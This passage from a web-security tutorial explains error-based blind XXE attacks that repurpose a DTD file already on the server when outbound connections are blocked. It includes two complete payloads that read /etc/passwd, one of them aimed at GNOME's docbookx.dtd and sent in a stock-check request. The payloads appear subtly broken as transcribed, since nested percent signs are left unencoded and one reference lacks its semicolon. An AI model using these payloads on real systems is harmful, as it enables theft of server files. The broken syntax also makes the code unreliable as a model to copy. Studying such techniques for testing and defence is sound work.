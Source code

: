 So what about blind XXE vulnerabilities when **out-of-band interactions are blocked** (external connections aren't available)?.

A loophole in the XML language specification can **expose sensitive data through error messages when a document's DTD blends internal and external declarations**. This issue allows for the internal redefinition of entities declared externally, facilitating the execution of error-based XXE attacks. Such attacks exploit the redefinition of an XML parameter entity, originally declared in an external DTD, from within an internal DTD. When out-of-band connections are blocked by the server, attackers must rely on local DTD files to conduct the attack, aiming to induce a parsing error to reveal sensitive information.

Consider a scenario where the server's filesystem contains a DTD file at `/usr/local/app/schema.dtd`, defining an entity named `custom_entity`. An attacker can induce an XML parsing error revealing the contents of the `/etc/passwd` file by submitting a hybrid DTD as follows:

```xml
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
    <!ENTITY % custom_entity '
        <!ENTITY % file SYSTEM "file:///etc/passwd">
        <!ENTITY % eval "<!ENTITY % error SYSTEM 'file:///nonexistent/%file'>">
        %eval;
        %error;
    '>
    %local_dtd;
]>
```

The outlined steps are executed by this DTD:

- The definition of an XML parameter entity named `local_dtd` includes the external DTD file located on the server's filesystem.
- A redefinition occurs for the `custom_entity` XML parameter entity, originally defined in the external DTD, to encapsulate an [error-based XXE exploit](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages). This redefinition is designed to elicit a parsing error, exposing the contents of the `/etc/passwd` file.
- By employing the `local_dtd` entity, the external DTD is engaged, encompassing the newly defined `custom_entity`. This sequence of actions precipitates the emission of the error message aimed for by the exploit.

**Real world example:** Systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
        <!ENTITY % file SYSTEM "file:///etc/passwd">
        <!ENTITY % eval "<!ENTITY % error SYSTEM 'file:///nonexistent/%file;'>">
        %eval;
        %error;
    '>
    %local_dtd;
]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```
